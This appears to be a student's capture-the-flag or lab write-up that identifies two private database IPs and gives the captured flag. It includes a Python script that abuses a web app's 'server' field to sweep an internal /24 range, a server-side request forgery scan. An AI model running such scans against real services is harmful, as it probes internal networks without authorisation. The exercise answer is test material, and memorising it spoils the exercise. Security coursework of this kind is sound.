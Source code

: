 When selecting DB2, the request payload is: `{"server":"192.168.111.12","email":""}`



So the IP of the databases are :

* DB1: 192.168.111.11
* DB2: 192.168.111.12

These databases are likely within the same local network, given their sequential IPs. They are not directly accessible from the public internet, as these IPs are private.



> 1.3. The hacker has also a private database storing a secret flag. What is this flag?



The flag is `SLH_23{M4ch1n354nd4ndr01d5}`



> 1.4. How did you find the flag? Explain your attack clearly.



I made a python script to send a request to all the IP address in the range 192.168.111.0 - 192.168.111.255.

Here is my script:

```python
import requests

# URL to which we want to send the request
url = 'http://10.190.133.22:9002/list'

# Define the headers
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Sec-GPC": "1",
    "content-type": "application/json",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache"
}

# Iterate over the full range
for i in range(256):
    ip = f'192.168.111.{i}'
    payload = {
        'server': ip,
        'email': ''
    }

    try:
        response = requests.post(url, json=payload, headers=headers, timeout=5)  
        print(f'Response for IP {ip}: {response.status_code}')
        if response.status_code == 200:
            print(response.text)  # Print the response body
    except requests.ConnectionError:
        print(f"Failed to connect to {ip}")
    except requests.Timeout:
        print(f"Timeout for {ip}")
    except Exception as e:
        print(f"An error occurred for {ip}: {str(e)}")

```
